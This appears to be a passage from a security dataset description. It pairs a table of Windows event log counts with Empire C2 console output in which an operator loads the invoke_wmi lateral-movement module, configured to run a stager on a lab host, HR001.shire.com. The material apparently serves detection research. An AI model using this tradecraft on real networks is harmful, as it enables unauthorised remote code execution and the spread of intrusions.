 | Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             375 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             234 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              48 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              22 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               6 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               4 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational      | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational  | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             870 |
| Microsoft-Windows-PowerShell/Operational  | Microsoft-Windows-PowerShell        | PowerShell Console Startup                             |               2 |
| Microsoft-Windows-PowerShell/Operational  | Microsoft-Windows-PowerShell        | Execute a Remote Command                               |               1 |
| Microsoft-Windows-PowerShell/Operational  | Microsoft-Windows-PowerShell        | PowerShell Named Pipe IPC                              |               1 |
| Microsoft-Windows-PowerShell/Operational  | Microsoft-Windows-PowerShell        | Starting Command                                       |               1 |
| Microsoft-Windows-DNS-Client/Operational  | Microsoft-Windows-DNS-Client        | na                                                     |             377 |
| Microsoft-Windows-Bits-Client/Operational | Microsoft-Windows-Bits-Client       | na                                                     |               4 |

## Empire Activity

```
(Empire: MPB3UHD1) > usemodule lateral_movement/invoke_wmi
(Empire: powershell/lateral_movement/invoke_wmi) > info

              Name: Invoke-WMI
            Module: powershell/lateral_movement/invoke_wmi
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @harmj0y

Description:
  Executes a stager on remote hosts using WMI.

Options:

  Name         Required    Value                     Description
  ----         --------    -------                   -----------
  Listener     True        https                     Listener to use.                        
  CredID       False                                 CredID from the store to use.           
  ComputerName True        HR001.shire.com           Host[s] to execute the stager on, comma 
                                                     separated.                              
  Proxy        False       default                   Proxy to use for request (default, none,
                                                     or other).                              
  UserName     False                                 [domain\]username to use to execute     
                                                     command.                                
  ProxyCreds   False       default                   Proxy credentials                       
                                                     ([domain\]username:password) to use for 
                                                     request (default, none, or other).      
  UserAgent    False       default                   User-agent string to use for the staging
```